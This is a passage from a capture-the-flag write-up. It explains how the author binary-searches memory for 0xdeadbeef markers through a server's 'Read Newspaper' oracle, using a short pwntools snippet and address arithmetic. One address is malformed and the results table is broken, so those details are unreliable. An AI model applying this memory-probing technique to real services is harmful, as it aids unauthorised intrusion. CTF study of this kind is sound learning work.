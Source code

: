 We first find any `0xdeadbeef` value, then move to the top of the corresponding steak frame and land at address `0x7ffe252fffb0`.

For the purpose of the algorithm, we assume that this is steak frame number 50,000 - so the steak frame with index 1 is located at:
```
0x7ffe252fffb0 - STEAK_TOTAL_SIZE = 0x7ffe252fffb0 - 0x7a1200 = 0x7ffe24b5edb0.
```
We then split both the index range and the address range in the middle:
```
mid = (50000 - 1) // 2 = 24999
mid_addr = 24999 * STEAK_SIZE = 24999 * 0xa0 = 0x3d0860
```
Now we define the ranges:
```
al = 1
ar = 1 + 24999 = 25000
bl = ar + 1 = 25001
br = 50000
```
And the corresponding addresses:
```
ar_addr = al_addr + mid_addr = 0x7ffe24b5edb0 + 0x3d0860 = 7ffe20x4f2f610
bl_addr = ar_addr + STEAK_SIZE = 0x7ffe24f2f6b0
```
We summarize this information in the table below:

---
| Round | [al         |   | ar]         |       | [bl         |     | br]           |       |             | [al_addr         |   | ar_addr]           |           | [bl_addr           |     | br_addr]           | 
|:-       |:-           |:-:|-:           |:-:    |:-           |:-:  |-:             |:-     |:-           |:-               |:-:|-:                 |:-:        |:-                 |:-:  |-:                 |
| |             |   |             |   ✂️  |             |     |               |       |             |                 |   |                   |   ✂️      |                   |     |                   |
|1 |             |   |             |`mid` = 24999 |      |     |               |       |             |                 |   |                   | `mid_addr` = 0x3d0860 |       |     |                   |
|1 | [1          |   | **25000**]  |       | [25001      |     | 50000]        |       |             |[0x7ffe24b5edb0       |   | **0x7ffe24f2f610**]    |           | [0x7ffe24f2f6b0        |     | 0x7ffe252fffb0]        | 

---

In the next step, we choose the "Read Newspaper" option and send `ar_addr` to the server:
```python
p.sendlineafter(b'house', CHOICE_READ_NEWSPAPER) 
payload = hex(ar_addr)
p.sendlineafter(b'read?', payload.encode())
``` 
If `ar_addr` contains `0xdeadbeef`, then we know there is at least one steak frame in block `a`, so we should continue the search for the first steak within this block. Otherwise, we know that we jumped too far - so the first steak must be somewhere in block `b`, and we continue the search there.

At the exploit level, we check this using the oracle described earlier. If the server responds with:
```
Here is your steak, sir!
```
then the address contains `0xdeadbeef`. Otherwise, the oracle responds with:
```
Oh wow! <random phrase from newspaper.txt>
```
In this particular case, we found the `0xdeadbeef` marker at `ar_addr`. We denote this in the table below with a steak emoji (🥩), and adapt the search area accordingly for the next round.

---